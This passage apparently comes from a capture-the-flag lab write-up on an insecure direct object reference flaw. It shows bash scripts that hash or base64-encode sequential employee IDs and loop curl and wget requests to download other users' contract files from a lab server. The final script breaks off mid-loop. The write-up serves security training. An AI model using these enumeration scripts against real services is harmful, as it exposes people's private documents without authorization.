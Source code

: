 ```shell-session
ElFelixi0@htb[/htb]$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
<SNIP>
```

And make a post request with the hashes to download the ones that exist ->

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

_**Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly.**_

We see the name of the contract through the URL->

```
file:///home/htb-ac-1032889/Downloads/contract_c4ca4238a0b923820dcc509a6f75849b.pdf
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we have to make a bash script to go and download every request ->

```
#!/bin/bash

# Function to generate the URL
downloadContract() {
  uid=$1
  # Encode UID in base64
  encoded_uid=$(echo -n "$uid" | base64)
  # Encode the base64 string for URL
  url_encoded_uid=$(python3 -c "import urllib.parse; print(urllib.parse.quote('''$encoded_uid'''))")
  # Generate the URL
  wget "http://94.237.49.212:40129/download.php?contract=${url_encoded_uid}"
}

# Loop from 1 to 20 and print the URLs
for i in {1..20}; do
```